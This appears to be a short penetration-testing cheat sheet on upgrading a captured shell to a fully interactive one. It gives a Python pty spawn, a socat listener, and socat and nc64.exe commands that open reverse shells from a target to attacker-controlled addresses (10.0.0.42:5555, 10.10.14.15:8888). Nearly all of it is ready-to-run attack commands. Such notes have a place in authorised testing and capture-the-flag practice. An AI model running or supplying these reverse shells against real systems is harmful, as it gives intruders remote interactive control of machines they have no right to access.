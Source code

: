 # Shell Upgrading

Upgrade a semi-interactive shell to a fully interactive shell.

## Linux

Method 1 - Using python3's pty module:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Method 2 - Create a new reverse shell with socat:

Listen for the shell on your own machine:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```

Transfer the socat binary to the target and send a reverse shell to your machine (10.0.0.42):
```bash
chmod +x ./socat
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.42:5555
```

You can get a staticly linked binary here: https://github.com/andrew-d/static-binaries


## Windows

Download nc.exe or nc64.exe
```powershell
nc64.exe 10.10.14.15 8888 -e cmd.exe
```

A powershell reverse shell one-liner might also do the trick.
